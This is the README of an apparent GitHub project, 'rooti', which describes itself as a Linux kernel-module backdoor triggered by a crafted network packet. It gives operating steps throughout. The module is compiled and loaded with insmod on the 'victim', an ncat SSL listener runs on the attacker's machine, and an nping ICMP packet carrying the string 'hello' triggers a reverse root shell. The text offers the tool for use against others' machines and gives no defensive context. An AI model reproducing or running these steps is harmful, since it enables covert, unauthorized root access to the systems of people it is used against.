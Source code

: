 # rooti
Cool little backdoor for linux.  
This is a kernel module that is triggered by a specially crafted network packet.  
Use with caution!

# Installation and requierments
There are two parts - on the attacked machine, and on our machine.
Needed:
- Suitable ncat binary - both for us and the destination.
- This repository.

### On victim
- Clone or copy the repository to destination and just type "make". 
(note: you can always compile the LKM beforehand - but make sure you do it for the right kernel version!)
- Now, you should see a .ko file (main.ko for now - 26.04.2020).
Type: (sudo) insmod main.ko
- To check it worked (only with debug mode on): cat /var/log/kern.log | tail 
And make sure you see some notes there.

### On our machine
- Listen on port 1234 with ncat, ssl enabled:
ncat -vklp 1234 --ssl
- Ping the destination using the payload "hello"
(sudo) nping -c 1 --icmp -dest-ip <dest-ip> --data-string 'hello'   (note: the data-string may change)
- You should recieve a connection with a root shell.
  
# Enjoy!
